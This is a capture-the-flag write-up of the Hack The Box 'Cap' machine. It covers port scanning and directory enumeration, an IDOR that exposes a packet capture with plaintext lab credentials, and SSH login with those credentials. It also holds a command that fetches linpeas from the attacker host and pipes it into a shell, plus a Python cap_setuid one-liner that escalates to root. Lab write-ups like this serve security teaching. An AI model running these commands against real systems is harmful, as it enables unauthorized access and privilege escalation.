 <img width="224" height="224" alt="image" src="https://github.com/user-attachments/assets/d315b380-0621-4960-bdd5-b416c3c21c53" />


# Cap Writeup

### About Cap
>Cap is an easy difficulty Linux machine running an HTTP server that performs administrative functions including performing >network captures. Improper controls result in Insecure Direct Object Reference (IDOR) giving access to another user's capture. >The capture contains plaintext credentials and can be used to gain foothold. A Linux capability is then leveraged to escalate >to root. 

## NMAP
<br>

```bash
nmap -sC -sV -p- cap.htb -oN cap_nmap
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-20 01:06 EDT
Nmap scan report for cap.htb (10.10.10.245)
Host is up (0.026s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.67 seconds
```

FTP anonymous access is NOT allowed

```bash
┌──(netcur10s㉿lab-kali)-[~]
└─$ ftp cap.htb 
Connected to cap.htb.
220 (vsFTPd 3.0.3)
Name (cap.htb:netcur10s): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> 

```

SSH password authentication allowed

```bash
┌──(netcur10s㉿lab-kali)-[~]
└─$ ssh root@cap.htb
The authenticity of host 'cap.htb (10.10.10.245)' can't be established.
ED25519 key fingerprint is SHA256:UDhIJpylePItP3qjtVVU+GnSyAZSr+mZKHzRoKcmLUI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'cap.htb' (ED25519) to the list of known hosts.
root@cap.htb's password: 
```

## GoBuster

Ran Gobuster to see if any directories of interest

```bash
┌──(netcur10s㉿lab-kali)-[~/HTB/Cap]
└─$ gobuster dir -u cap.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                                    
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cap.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/data                 (Status: 302) [Size: 208] [--> http://cap.htb/]
/ip                   (Status: 200) [Size: 17465]
/netstat              (Status: 200) [Size: 32741]
/capture              (Status: 302) [Size: 222] [--> http://cap.htb/data/13]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

Checked out the redirect address http://cap.htb/data/13 which has a download button

![image.png](screenshots/image.png) 

Downloaded the file seems to be a pcap file 0.pcap

Searching through the pcap file for any good information

Able to find user credentials

![image1.png](screenshots/image1.png)

Credentials found nathan:Buck3tH4TF0RM3!

## FTP(21)

Attempted to log into FTP under nathan and using this password Buck3tH4TF0RM3!

```bash
┌──(netcur10s㉿lab-kali)-[~]
└─$ ftp nathan@cap.htb
Connected to cap.htb.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||22860|)
150 Here comes the directory listing.
drwxr-xr-x    3 1001     1001         4096 Aug 21 00:21 snap
-r--------    1 1001     1001           33 Aug 20 19:14 user.txt
226 Directory send OK.
ftp> 
```

## SSH(22)

These credential also work using SSH

```bash
nathan@cap:~$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
nathan@cap:~$ 
```

Checking to see if curl & python are installed

```bash
nathan@cap:~$ which curl python3
/usr/bin/curl
/usr/bin/python3
```

Performing linpeas scan

```bash
nathan@cap:~$ curl http://10.10.14.61:80/linpeas.sh | sh
```

linpeas scanned and found a potential pkexec exploit and a Python binary vulnerability.

Checked GTFOBins for more information about the Python vulnerability.

```bash
Capabilities

If the binary has the Linux CAP_SETUID capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.

    cp $(which python) .
    sudo setcap cap_setuid+ep python

    ./python -c 'import os; os.setuid(0); os.system("/bin/sh")'

```

Attempted to execute > Successful!

```bash
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
root
# 
```

Changed to root directory 

Listed current directory with `ls` command and used `cat` to print out to screen

```bash
# cd /root
# ls
root.txt  snap
# cat root.txt
```
